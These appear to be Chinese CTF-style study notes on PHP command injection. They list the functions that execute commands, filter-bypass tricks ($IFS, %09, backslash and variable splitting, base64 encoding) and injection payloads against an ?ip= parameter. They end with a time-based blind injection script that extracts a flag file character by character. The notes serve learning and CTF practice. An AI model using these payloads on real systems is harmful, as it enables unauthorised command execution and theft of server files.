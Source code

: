 ```yaml
---
title: 命令执行
---
```


# 命令执行

以下介绍为 PHP 环境

用于命令执行的函数有

```
system
exec
passthru
shell_exec
```



## 一些常见的绕过方法

命令拼接

<img src="/images/exec/1.png" alt="image-20201218105802" style="zoom: 67%;"/>

以及

```
%0a
%0d
\n
```

空格绕过

```
$IFS
${IFS}
$IFS$1
%09
{cat,flag.php}
```

关键字 flag 被过滤

```
fla\g
a=g;fla$a
```

例如：

```
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

或者使用 base64 编码绕过

```
?url=127.0.0.1|`echo%09WTJGMElDOWxkR012TG1acGJtUm1iR0ZuTDJac1lXY3VkSGgw|base64%09-d|base64%09-d`
```

另外如反引号可在语句中执行命令

```
ls `cat /flag > /var/www/html/1.txt`
```



另附一份无回显盲注脚本

```
import requests
import time

s=requests.session()
flag=''
for z in range(1,50):
    for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_!@#%|^&{}[]/-()+=,\\':
        starTime=time.time()
        url="http://127.0.0.1/?cmd=if [ `cut -c"+str(z)+"-"+str(z)+" /flag` != '"+i+"' ]; then echo 1 ; else sleep 3; fi"
        r=s.get(url)
        if((time.time()-starTime)>3):
            flag+=i
            print(flag)
            break
    print(z)
print('the flag is'+flag)
```